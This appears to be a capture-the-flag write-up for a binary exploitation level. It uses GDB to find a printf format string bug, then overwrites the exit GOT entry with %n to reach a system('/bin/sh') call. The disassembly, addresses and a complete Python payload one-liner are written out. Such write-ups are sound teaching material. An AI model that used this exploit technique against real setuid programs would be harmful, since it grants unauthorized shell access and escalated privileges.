

In GDB we can see that the program fopens ("/home/users/level03/.pass"), reads it, and store it. then takes a username and password from stdin using fgets and compares the password to the contents of .pass stored before. If they match we get to a system("/bin/sh") call (which is impossible), if they don't, a printf is called with the username as argument.

In this level, we won't be able to debug it normally in ltrace or gdb since it's reading the flag from next level, and since gdb and ltrace are running with limited permissions the program will exit since he can't open/read the file in next level's user. we can work around that by breaking before open/read then jumping after them. We use this .gdbinit to automate that process:

set disassembly-flavor intel
file level02
\# break right before open
break *0x00000000004008a8
\# jump right before username/pass input and after open/read to bypass in gdb 
run
jump *0x0000000000400989

since the username gets printed later using printf we can mess around with format string exploit (%x or %p) and see if we get the memory printed. we notice that when writing a known string in password such as "AAAABBBBCCCCDDDD" we can easily print it in the 8th %x position.

that means all we have to do now is to override the exit function address (0x601228 <exit@got.plt>)
0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>
0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
0x0000000000400aac <+664>:	call   0x400680 <puts@plt>
0x0000000000400ab1 <+669>:	mov    edi,0x1
0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>

disass 0x400710
Dump of assembler code for function exit@plt:
0x0000000000400710 <+0>:	jmp    QWORD PTR [rip+0x200b12]        # 0x601228 <exit@got.plt>

 to execute the instruction that calls the system("/bin/sh"):
0x0000000000400a85 <+625>: mov edi,0x400d32
0x0000000000400a8a <+630>: call 0x4006b0 <system@plt>

we can do that with printf with %n specifier instead of %x (%n writes the number or printed characters before to our argument). If we want to override exit() with the address 0x0000000000400a85, we will have to write 0x400a85 (4196997) characters before %n, since our buffer takes only 100 characters, we will take advantage of printf padding and we will specify that we want the 8th argument with $).

Our final payload is :
python -c 'print("%4196997d%8$n\n"+"\x28\x12\x60")' > payload
cat payload - | ./level02